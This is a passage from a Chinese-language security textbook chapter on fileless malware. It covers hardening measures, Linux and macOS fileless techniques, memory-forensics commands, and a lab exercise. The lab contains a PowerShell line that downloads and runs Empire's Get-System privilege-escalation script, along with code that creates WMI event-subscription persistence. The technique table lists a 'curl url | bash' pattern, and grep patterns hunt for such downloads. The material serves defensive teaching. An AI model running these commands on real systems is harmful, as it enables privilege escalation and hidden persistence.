| 网络层C2通信检测 | 中 | 中 | SSL解密 + JA3/JA3S指纹 + 域名信誉库 |
| 卸载PowerShell 2.0 | 低 | 中 | `Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root` |
| 启用LSASS保护（Credential Guard） | 高 | 高 | 阻止对LSASS进程的内存读取 |
| 禁用WinRM（非必要主机） | 中 | 中 | `Disable-PSRemoting -Force`，仅在需要远程管理的服务器上保留 |
| 定期WMI订阅审计 | 低 | 中 | 每周运行WMI订阅检查脚本，与基线对比 |

#### 跨平台无文件攻击与防御

虽然本文以Windows PowerShell为主线，但无文件攻击技术在Linux和macOS上同样存在。理解跨平台的无文件威胁有助于构建更全面的防御体系。

**Linux无文件攻击技术：**

| 技术 | 原理 | 典型载荷 |
|------|------|---------|
| `/dev/shm`内存文件系统 | 利用共享内存段执行脚本，重启后消失 | ELF恶意程序、挖矿脚本 |
| `memfd_create()` | 创建匿名内存文件描述符，直接在内存中执行ELF | 高级rootkit、无文件后门 |
| `bash -c` + 远程下载 | `curl -s url \| bash` 直接在内存中执行 | 加密货币挖矿、僵尸网络 |
| LD_PRELOAD注入 | 注入共享库到合法进程 | 用户态rootkit |
| `perl/python -e` | 使用解释器执行内联代码 | 各类后门 |

**Linux内存取证快速检查：**

```bash
# 检查/dev/shm中的可疑文件
ls -la /dev/shm/
find /dev/shm -type f -executable

# 检查memfd创建的匿名文件（需要/proc分析）
ls -la /proc/*/fd/ 2>/dev/null | grep 'memfd:' | head -20

# 检查LD_PRELOAD劫持
cat /etc/ld.so.preload 2>/dev/null
echo $LD_PRELOAD

# 检查bash历史中的可疑下载执行
grep -E 'curl|wget.*\|.*bash|wget.*\|.*sh' ~/.bash_history /root/.bash_history 2>/dev/null

# 使用Volatility分析Linux内存镜像
vol.py -f linux_memory.dmp linux.pslist | grep -E 'bash|python|perl|nc|ncat'
vol.py -f linux_memory.dmp linux.bash
```

**macOS无文件攻击技术：**

| 技术 | 原理 | 典型载荷 |
|------|------|---------|
| AppleScript/JXA | 内存中的脚本执行 | 信息窃取、持久化 |
| Dylib注入 | 注入动态库到目标进程 | 间谍软件 |
| LaunchAgent/LaunchDaemon | plist配置文件中嵌入恶意命令 | 持久化后门 |
| `osascript -e` | 内联执行AppleScript | 各类攻击载荷 |

### 24.6.10 实战演练：自建无文件攻击检测实验环境

为加深对无文件攻击的理解，建议在隔离的虚拟化环境中搭建实验平台进行攻防演练。

**实验环境搭建清单：**

| 角色 | 系统 | 用途 |
|------|------|------|
| 攻击机 | Kali Linux | 运行Cobalt Strike / Empire / Metasploit |
| 靶机 | Windows Server 2022 | 模拟被攻击的域控/服务器 |
| 分析机 | Windows 10/11 | 安装Volatility、Sysmon、日志分析工具 |
| 监控机 | Ubuntu + ELK Stack | SIEM日志收集和告警 |

**基础实验：PowerShell无文件攻击与检测**

```powershell
# ===== 实验一：PowerShell下载执行与日志检测 =====
# 在靶机上执行（模拟攻击者行为）
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Get-System.ps1')

# 在分析机上检测（模拟防御者行为）
# 查询PowerShell脚本块日志中的可疑活动
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4104
} -MaxEvents 5 | Where-Object {
    $_.Message -match 'IEX|DownloadString|Invoke-Expression'
} | Format-List TimeCreated, Message

# 实验二：WMI持久化创建与检测
# 创建WMI持久化（攻击者行为）
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "TestFilter"
    EventNamespace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 60"
}

$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "TestConsumer"
    CommandLineTemplate = "powershell.exe -NoProfile -WindowStyle Hidden -Command `"Write-Output 'WMI Persistence Test'`""
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter
    Consumer = $consumer
}

# 检测WMI持久化（防御者行为）
Get-CimInstance -Namespace "root\subscription" -ClassName __EventFilter |
    Where-Object { $_.Name -eq "TestFilter" }

# 清理实验环境
Get-CimInstance -Namespace "root\subscription" -ClassName __FilterToConsumerBinding |
    Where-Object { $_.Filter -match "TestFilter" } | Remove-CimInstance
Get-CimInstance -Namespace "root\subscription" -ClassName __EventConsumer |
    Where-Object { $_.Name -eq "TestConsumer" } | Remove-CimInstance
Get-CimInstance -Namespace "root\subscription" -ClassName __EventFilter |
    Where-Object { $_.Name -eq "TestFilter" } | Remove-CimInstance
```

### 24.6.11 本章小结

本案例完整展示了一起无文件恶意软件攻击从入侵到响应的全过程，核心知识点如下：

1. **无文件恶意软件的本质**：利用系统内置合法工具（PowerShell、WMI、.NET等）在内存中执行恶意代码，传统文件型检测手段几乎无效
2. **攻击链各阶段技术细节**：钓鱼宏→PowerShell加载器→.NET反射加载→WMI持久化→PowerShell Remoting横向移动→内存压缩渗出
3. **AMSI与ETW是关键检测基础设施**：AMSI在脚本执行前拦截恶意代码，ETW在内核层记录系统活动，两者结合提供了对无文件攻击的核心可见性
4. **核心检测数据源**：PowerShell脚本块日志（Event ID 4104）是最关键的检测依据，必须在GPO中全局启用
5. **WMI持久化检测方法**：检查`__EventFilter`、`__EventConsumer`、`__FilterToConsumerBinding`三个核心类，特别关注`CommandLineEventConsumer`和`ActiveScriptEventConsumer`
6. **内存取证是必杀技**：无文件恶意软件的运行时痕迹全部存在于RAM中，及时获取内存镜像是取证成功的关键
7. **纵深防御是根本**：单点检测无法应对无文件攻击，需要终端（AMSI+AppLocker+Sysmon）+ 网络（NTA+域名过滤）+ 身份（最小权限）+ 监控（SIEM+EDR）的多层防御体系
8. **持续审计不可松懈**：WMI订阅、计划任务、COM对象、注册表Run键等持久化机制需要定期扫描并与基线对比

> **安全箴言：** 无文件不代表无痕迹。攻击者虽然避开了文件系统，但仍然需要在进程内存、WMI仓库、注册表、网络流量中留下行为轨迹。防御者的核心任务是确保这些日志和数据源在攻击发生前就已开启和采集——事后补救永远不如事前准备。

#### 推荐阅读与工具资源

| 类别 | 资源 | 用途 |
|------|------|------|
| 工具 | Volatility 3（GitHub） | Windows内存取证分析框架 |
| 工具 | Sysmon（Sysinternals） | 细粒度的Windows系统事件监控 |
| 工具 | LOLBAS Project | 汇总所有Living-off-the-Land二进制文件和脚本 |
| 工具 | PyWMIPersistenceFinder | WMI持久化自动化检测脚本 |
| 工具 | PSHunt（PowerShell Hunt） | 企业级PowerShell威胁狩猎框架 |
| 工具 | PSHunt/SysmonView | Sysmon日志可视化分析工具 |
| 工具 | DeepBlueCLI | PowerShell威胁检测自动化模块 |
| 规则 | Sigma规则库 | 通用检测规则，可转换为SIEM查询 |
| 规则 | Neo23x0/signature-base | YARA规则库（含无文件恶意软件检测规则） |
| 知识 | MITRE ATT&CK T1059.001 | PowerShell技术详解 |
| 知识 | MITRE ATT&CK T1546.003 | WMI事件订阅持久化详解 |
| 知识 | Microsoft AMSI文档 | 反恶意软件扫描接口技术规范 |
| 知识 | LOLBAS Project (lolbas-project.github.io) | Living-off-the-Land二进制文件和脚本完整列表 |
| 知识 | Elastic Threat Research | 内存检测和无文件攻击研究 |
